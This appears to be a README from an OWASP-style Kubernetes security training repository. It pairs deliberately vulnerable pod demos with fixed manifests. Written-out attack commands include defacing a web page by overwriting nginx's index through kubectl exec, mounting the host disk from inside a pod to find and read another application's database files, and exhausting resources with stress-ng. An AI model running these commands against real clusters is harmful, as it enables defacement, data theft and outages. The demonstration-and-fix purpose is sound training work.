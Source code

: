 # Example fix1, fix2

1. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack.pod.yaml
    kubectl get pods
    kubectl port-forward pod/hackme-app 8080:80
```

3. Visit localhost:8080

4. Execute:
```shell
    kubectl exec hackme-app -- bash -c "echo '<\!DOCTYPE html><html lang=\"en\"><head><style> body { align-items: center; background-color: black; display: flex; height: 100vh; justify-content: center; } </style></head><body><img src=\"https://raw.githubusercontent.com/tomasz2101/OWASP/main/app/src/assets/img/h1sub.png\"></body></html>' > /usr/share/nginx/html/index.html"
```

5. Visit localhost:8080

## Fixing application

1. Execute:
```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix1.pod.yaml
    kubectl apply -f devops/k8s/manifests/k01/fix2.pod.yaml
```


# Example fix3
1. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack3.pod.yaml
    kubectl apply -f devops/k8s/manifests/k01/second-app.yaml
    kubectl port-forward pod/todo-app 8081:8000
    kubectl exec -it hackme-app -- bash

    df -h
    mkdir /tmp/host-fs
    mount /dev/sde /tmp/host-fs/
    find . -name "*.db"
    cd $directory
    cat 000000000.data
```

## Fixing application

```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix3.pod.yaml
```

# Example fix4

2. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack.pod.yaml
    
```
```shell
# Terminal no. 1
kubectl exec -it hackme-app -- htop

# Terminal no. 2
kubectl exec hackme-app -- stress-ng --cpu 8 --vm 4 --vm-bytes 2G --timeout 30s
```

## Fixing application

```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix4.pod.yaml
```
